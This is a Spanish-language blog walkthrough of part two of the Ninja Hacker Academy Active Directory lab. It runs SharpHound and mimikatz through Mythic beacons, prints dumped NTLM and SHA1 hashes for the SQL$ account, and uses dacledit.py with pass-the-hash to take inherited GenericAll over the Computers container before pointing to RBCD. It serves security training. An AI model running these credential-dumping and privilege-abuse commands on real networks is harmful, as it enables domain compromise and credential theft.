 ```yaml
---
layout: single
title: Ninja Hacker Academy Parte 2
excerpt: "En esta segunda parte, recolectaremos la data de bloodhound, ejecutaremos mimikatz en el sistema comprometido para oobtener credenciales y haremos movimiento lateral a otro sistema en la red."
date: 2025-09-22
classes: wide
header:
  teaser: /assets/images/NHA/logo_NHA.jpeg
  teaser_home_page: true
categories:
  - Ciberseguridad
tags:
  - Windows
  - Active Directory
---
```



<p align="center">
  <img src="/assets/images/NHA/logo_NHA.jpeg" alt="Logo NHA" style="max-width:60%; height:auto;">
</p>

# Introducción
En esta segunda parte, recolectaremos la data de bloodhound, ejecutaremos mimikatz en el sistema comprometido para oobtener credenciales y haremos movimiento lateral a otro sistema en la red.

Partimos del contexto en el que tenemos dos beacons del sistema sql, con la ip 192.168.56.21, uno con la cuenta NT AUTHORITY\NETWORK SERVICE, y otro con privilegios de SYSTEM.

Vamos a editar el fichero hosts de nuestra máquina atacante, para que pueda resolver los nombres de las máquinas del laboratorio. Para ello, netexec nos facilita la tarea, de esta forma:

```bash
nxc smb 192.168.56.0/24 --generate-hosts-file hosts.txt
```

![](/assets/images/NHA/hosts.png)

Una de las tareas más importantes a la hora de ejecutar un pentesting en un entorno de active directory, es obtener la data de bloodhound, para poder enumerar en condiciones todo el entorno. Para ello, es posible ejecutar en memoria SharpHouind.exe desde Mythic, que nos proporcionará lo que necesitamos.

Con register_assembly lo cargamos en Mythic, y con execute_assembly lo ejecutamos.

![](/assets/images/NHA/sharphound.png)

```bash
execute_assembly SharpHound.exe -c All,GPOLocalGroup
```
![](/assets/images/NHA/sharphound2.png)

Ahora es posible descargarlo para analizarlo desde bloodhound.

![](/assets/images/NHA/download_blood.png)

Además vamos también a ejecutar mimikatz desde mythic,para intentar obtener hashes que nos puedan servir para movernos lateralmente.

```bash
mimikatz "privilege::debug" "token::elevate" "sekurlsa::logonpasswords"
```

![](/assets/images/NHA/mimi.png)

Y obtenemos el hash ntlm de la cuenta de máquina sql$

```
* Username : SQL$
	 * Domain   : ACADEMY
	 * NTLM     : 87301c6906621fb1b4973ec2b2f4d937
	 * SHA1     : f52af5354b64f68fb9deef15e3a37de252d017e9
	 * DPAPI    : f52af5354b64f68fb9deef15e3a37de2
```


Si nos vamos a bloodhound y buscamos la cuenta de máquina sql, vemos que tiene GenericAll sobre un contenedor llamado computers, y bloodhound nos sugiere utilizar dacledit con el parámetro -inheritance, para que se hereden los permisos a todos los objetos que hayan dentro del contenedor.

```bash
dacledit.py -action "write" -principal SQL$ -target-dn "CN=COMPUTERS,DC=ACADEMY,DC=NINJA,DC=LAN" "academy.ninja.lan"/"SQL$" -hashes :87301c6906621fb1b4973ec2b2f4d937 -inheritance
[*] NB: objects with adminCount=1 will no inherit ACEs from their parent container/OU
[*] DACL backed up to dacledit-20250926-194525.bak
[*] DACL modified successfully!
```

![](/assets/images/NHA/dacledit.png)

Ahora, si actualizamos la data de bloodhound, volviendo a ejecutar el comando de antes, descargando el nuevo archivo y subiéndolo a bloodhound vemos que tenemos GenericAll también sobre la máquina web$. Y además nos sugiere que utilicemos la técnica RBCD (Resource-Based Constrained Delegation).

![](/assets/images/NHA/bloodhound4.png)



